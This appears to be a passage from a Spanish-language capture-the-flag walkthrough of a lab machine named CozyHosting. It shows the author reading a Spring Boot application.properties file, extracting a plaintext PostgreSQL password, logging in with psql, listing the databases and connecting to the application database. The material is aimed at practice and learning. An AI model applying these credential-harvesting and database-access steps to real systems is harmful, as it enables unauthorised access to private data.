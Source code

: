 Consultando el archivo:
```
app@cozyhosting:/tmp/app$ cat /tmp/app/BOOT-INF/classes/application.properties 

server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR$ 
```

Descubro estas interesantes líneas:
```
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```
Vamos a conectarnos a la instancia PostgreSQL con:
```
psql -h 127.0.0.1 -U postgres
```

Cargo la contraseña: *Vg&nvzAQ7XxR*

Guía de "PostgreSQL":
https://kinsta.com/blog/postgres-list-databases/

Y ejecuto un:
```
\list
```
para ver las bases de datos existentes.

```
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges   
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)
```

Pulso la "q" para poder seguir inyectando comandos:

Ejecuto:
```
postgres=# \connect cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".
```
